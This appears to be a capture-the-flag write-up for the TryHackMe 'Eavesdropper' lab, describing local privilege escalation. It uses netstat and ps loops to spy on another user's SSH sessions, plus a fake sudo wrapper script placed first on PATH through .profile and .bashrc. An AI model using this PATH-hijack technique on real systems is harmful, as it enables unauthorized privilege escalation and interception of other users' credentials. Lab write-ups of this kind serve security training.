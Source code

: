 # TryHackMy Eavesdropper room:

https://tryhackme.com/room/eavesdropper

User frank is a member of sudo group but password is required to run sudo.

`$ id`

`$ sudo -l`

The room title is Eavesdropper so start to sniff the network activity with:

`$ watch -n 0.01 netstat -naplet`

There is a connection from 172.xx.xx.xx to port 22 periodically. Use ps to capture what is happen via ssh from 172.xx.xx.xx:

`$ while true; do sleep 0.01; ps auxe | grep SSH_CLIENT=172.xx.xx.xx | grep -v grep > process.out ; done`

The sudo is run via ssh - it looks like a password is given at 172.xx.xx.xx when the command is executed. Create sudo wrapper in HOME: 

```
$ cat $HOME/sudo

#!/usr/bin/bash
echo $@ >> b.out
/usr/bin/sudo id > /home/frank/id.out
```

Add HOME to PATH (via .profile & .bashrc) and wait for the wrapper execution.

Check the /root with the sudo wrapper.

Capture the flag :)
